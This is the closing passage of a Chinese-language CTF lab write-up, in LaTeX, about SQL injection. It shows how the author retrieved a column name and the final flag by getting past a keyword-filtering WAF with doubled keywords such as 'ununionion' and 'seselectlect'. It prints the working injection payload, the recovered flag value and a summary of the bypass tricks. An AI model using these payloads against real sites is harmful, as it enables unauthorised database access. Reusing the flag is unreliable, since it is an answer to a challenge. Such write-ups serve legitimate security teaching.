    
\includegraphics[width=0.95\textwidth]{6.7.png}
    \caption{首次查询列名返回None}
\end{figure}

调整payload后成功获取列名，最后一列为flag列：
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.8.png}
    \caption{成功获取列名：ikcgegqmcdjemfp}
\end{figure}

\subsubsection{步骤6：查询最终Flag}
使用正确表名+列名，构造最终payload：
\begin{lstlisting}
Amy Jones'ununionion seselectlect group_concat(ikcgegqmcdjemfp),2,3,4 from pfiholbpnoejbnq\#
\end{lstlisting}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{6.9.png}
    \caption{成功获取最终Flag}
\end{figure}

\subsection{最终Flag}
\begin{center}
    \Large flag\{6f3e9a41-4a1a-43f1-ab25-cab262c505b5\}
\end{center}

\subsection{实验总结}
本题核心考察\textbf{双写绕过WAF过滤}技术：
\begin{enumerate}
    \item union → ununionion
    \item select → seselectlect
    \item or → oorr / infoorrmation\_schema
\end{enumerate}
通过逐步获取库名、表名、列名，最终成功读取flag。

\end{document}